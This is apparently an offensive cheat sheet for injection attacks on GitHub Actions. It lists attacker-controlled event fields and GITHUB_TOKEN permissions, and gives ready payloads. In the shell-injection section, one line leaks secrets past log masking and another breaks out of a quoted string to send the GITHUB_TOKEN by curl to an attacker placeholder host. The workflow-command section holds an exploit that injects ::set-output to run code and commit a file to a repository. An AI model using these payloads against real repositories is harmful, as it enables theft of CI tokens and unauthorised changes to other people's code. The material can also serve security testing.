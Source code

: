 # Github Actions

    github.event.issue.title
    github.event.issue.body
    github.event.pull_request.title
    github.event.pull_request.body
    github.event.comment.body
    github.event.review.body
    github.event.review_comment.body
    github.event.pages.*.page_name
    github.event.commits.*.message
    github.event.head_commit.message
    github.event.head_commit.author.email
    github.event.head_commit.author.name
    github.event.commits.*.author.email
    github.event.commits.*.author.name
    github.event.pull_request.head.ref
    github.event.pull_request.head.label
    github.event.pull_request.head.repo.default_branch
    github.head_ref

1. *GitHub Actions supports Node.js, Python, Java, Ruby, PHP, Go, Rust, .NET, and more.* Therefore, you must identify the target's language prior to injection.

2. The pull_request events triggers Workflows even if the author has read-only permissions and no access to secrets. Nevertheless, permissions differ between the event triggers like issue_comment, issues and push.

3. The GITHUB_TOKEN inherits many permissions.

    Permission	            Access type	    Access by forked repos
    actions	                read/write	    read
    checks	                read/write	    read
    contents	            read/write	    read
    deployments	            read/write	    read
    issues	                read/write	    read
    metadata	            read	        read
    packages	            read/write	    read
    pull requests	        read/write	    read
    repository projects	    read/write	    read
    statuses	            read/write	    read

## shell injections

    echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};

    a"; set +e; curl http://<you.net>?token=$GITHUB_TOKEN;#

    echo "$HOME/.local/bin" >> $GITHUB_PATH

    echo 'JSON_RESPONSE<<EOF' >> $GITHUB_ENV
    curl https://httpbin.org/json >> $GITHUB_ENV
    echo 'EOF' >> $GITHUB_ENV

    curl --request POST \
        --url https://api.github.com/repos/${{ github.repository }}/issues \
        --header 'authorization: Bearer ${{ secrets.GITHUB_TOKEN }}' \
        --header 'content-type: application/json' \
        --data '{
          "title": "Automated issue for commit: ${{ github.sha }}",
          "body": "This issue was automatically created by the GitHub Action workflow **${{ github.workflow }}**. \n\n The commit hash was: _${{ github.sha }}_."
          }' \
        --fail

## workflow commands injections

Unless disabled explicitly, a Workflow runner will look for Workflow commands.

    ::workflow-command parameter1={data},parameter2={data}::{command value}

    ::stop-commands::pause-logging

https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions

### injecting stdout in env vars

Let's say we expect a comment and then we rely on the ID to process it. It is important to understand that this injection is tricky since we set the PR comment as env variable which means it is converted to a string. This way the input expression is stored in memory and used as variable instead of influencing the generation of script. However, even in this case there are some dangerous words that can be used.

    # sample workflow
    name: log and process issue comments
    on:
      issue_comment:
        types: [created]
    jobs:
      issue_comment:
        name: log issue comment
        runs-on: ubuntu-latest
        steps:
          - id: comment_log
            name: log issue comment
            uses: actions/github-script@v3
            env:
              COMMENT_BODY: ${{ github.event.comment.body }}
              COMMENT_ID: ${{ github.event.comment.id }}
            with:
              github-token: "deadc0de"
              script: |
                console.log(process.env.COMMENT_BODY)
                return process.env.COMMENT_ID
              result-encoding: string
          - id: comment_process
            name: process comment
            uses: actions/github-script@v3
            timeout-minutes: 1
            if: ${{ steps.comment_log.outputs.COMMENT_ID }}
            with:
              script: |
                const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
                return ""
              result-encoding: string

    # exploit creating a file
    ::set-output name=COMMENT_ID::1; console.log(context); console.log(process); await github.request('PUT /repos/{owner}/{repo}/contents/{path}', { owner: '<username>', repo: '<reponame>', path: 'pwn.md', message: 'bonjour', content: Buffer.from('bonjour vous autres').toString('base64'), branch: 'main' })
